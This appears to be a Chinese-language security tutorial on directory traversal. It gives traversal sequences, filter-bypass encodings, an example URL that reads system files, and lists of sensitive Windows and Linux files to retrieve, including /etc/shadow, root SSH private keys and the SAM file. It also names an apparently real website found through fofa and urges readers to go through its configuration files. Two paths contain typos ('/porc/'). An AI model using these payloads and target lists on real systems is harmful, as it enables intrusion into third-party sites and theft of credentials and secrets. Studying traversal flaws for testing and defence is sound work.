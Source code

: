 #### 目录遍历

通过使用 `../` 等目录控制序列或者文件的绝对路径来访问存储在文件系统上的任意文件和目录，特别是应用程序源代码、配置文件、重要的系统文件等。

- `../`

- `..\`

- `..;/`

  比如这种

[![I1dY8g.png](https://z3.ax1x.com/2021/11/07/I1dY8g.png)](https://imgtu.com/i/I1dY8g)



##### 过滤绕过

​	单次替换`...//`           URL编码   16位Unicode编码`\u002e`        超长UTF-8编码`\%e0%40%ae`

##### 实战网站测试

下面是我在fofa上找到的，大家可以去看看

http://www.leiziyeah.top/

[![I1dTPO.png](https://z3.ax1x.com/2021/11/07/I1dTPO.png)](https://imgtu.com/i/I1dTPO)

这个网站我记得是有一个子域名是他的云网盘存储，可以去数据库翻一番他的配置文件

~~~php
http://www.test.com/my.jsp?file=../../Windows.system.ini
可以构造类似url去读对方的数据库，中间件，系统配置文件等等等
详细可读内网在文件包含/文件读取/文件下载中有记录的
~~~

~~~
Windows
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS 配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php 配置信息
C:\Windows\my.ini //Mysql 配置信息
C:\Windows\win.ini //Windows 系统的一个基本系统配置文件
~~~

~~~
Linux
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/usr/local/app/php5/lib/php.ini //PHP 配置文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf //apache 配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql 历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的 cmdline 参数
都可以尝试下载
~~~

比如apache flink的目录遍历漏洞，可以在github上搜一搜小脚本

















